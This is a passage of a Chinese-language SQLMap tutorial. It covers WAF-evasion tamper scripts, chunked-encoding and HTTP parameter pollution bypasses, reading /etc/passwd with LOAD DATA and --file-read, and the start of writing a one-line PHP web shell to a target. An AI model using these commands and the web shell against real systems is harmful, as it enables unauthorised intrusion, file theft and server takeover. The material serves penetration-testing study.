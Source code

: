 |        `space2hash`         |         将 (MySQL) 中的空格字符 ( ) 替换为井号 (#) 后跟随机字符串和换行符 (\n)          |
|     `space2mssqlblank`      |             将 (MsSQL) 中的空格字符 ( ) 替换为来自有效备用字符集的随机空白字符             |
|        `space2plus`         |                       将空格字符 ( ) 替换为加号 (+)                        |
|     `space2randomblank`     |                  将空格字符 ( ) 替换为来自有效备用字符集的随机空白字符                   |
|      `symboliclogical`      |                将 AND 和 OR 逻辑运算符替换为其符号对应项 (&& 和 \|                |
|     `versionedkeywords`     |                   用 (MySQL) 版本化注释将每个非函数关键字包围起来                   |
|   `versionedmorekeywords`   |                    用 (MySQL) 版本化注释将每个关键字包围起来                     |

要获取所有已实现的篡改脚本的完整列表以及如上所示的描述，可以使用 **`--list-tampers`** 开关。我们还可以为任何自定义类型的攻击（如二阶 SQLi）开发自定义篡改脚本。

## 其他绕过 (Miscellaneous Bypasses)

在其他防护绕过机制中，还有两个需要提及。第一个是 **分块传输编码 (Chunked transfer encoding)**，使用 **`--chunked`** 开关开启，它将 POST 请求的主体分割成所谓的“块”（chunks）。被列入黑名单的 SQL 关键字被分散到不同的块中，这样包含它们的请求就可以不被注意地通过。

另一种绕过机制是 **HTTP 参数污染 (HTTP parameter pollution - HPP)**，与 `--chunked` 类似，payload 被分割到具有相同参数名的不同参数值中（例如 `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`），如果目标平台支持（例如 ASP），这些值会被连接起来。


## 进入操作系统

> 读取数据比写入数据更为常见，因为在现代 `DBMS` 中，写入数据需要严格的权限，因此可能导致系统漏洞利用，这一点我们将会看到。例如，在 `MySql` 中，要读取本地文件，数据库用户必须拥有`LOAD DATA`和 `INSERT`的权限，才能将文件内容加载到表中，然后读取该表。


```sql
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
```

先检查是否具有管理员权限

```shell
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

如果很不幸没有，那么尝试去读取文件则不会读到数据。但是假如有，我们可以用SQLMap的选项读取：`--file-read`

```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

### 写入本地文件

在现代数据库管理系统 (DBMS) 中，将文件写入托管服务器变得更加受限，因为我们可以利用这一点在远程服务器上写入 Web Shell，从而获得代码执行能力并控制服务器。

这就是为什么现代 DBMS 默认禁用文件写入，并且需要 DBA (数据库管理员) 具备某些权限才能写入文件。例如，在 MySQL 中，除了在主机服务器上需要本地访问权限（比如在我们需要写入的目录中拥有写入权限）之外，还必须手动禁用 `--secure-file-priv` 配置才能允许使用 `INTO OUTFILE` SQL 查询将数据写入本地文件。

尽管如此，许多 Web 应用程序仍然需要 DBMS 能够将数据写入文件，因此值得测试我们是否可以向远程服务器写入文件。使用 `SQLMap` 实现这一点，我们可以使用 `--file-write` 和 `--file-dest` 选项。首先，让我们准备一个基本的` PHP Web Shell `并将其写入一个 `shell.php` 文件：

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
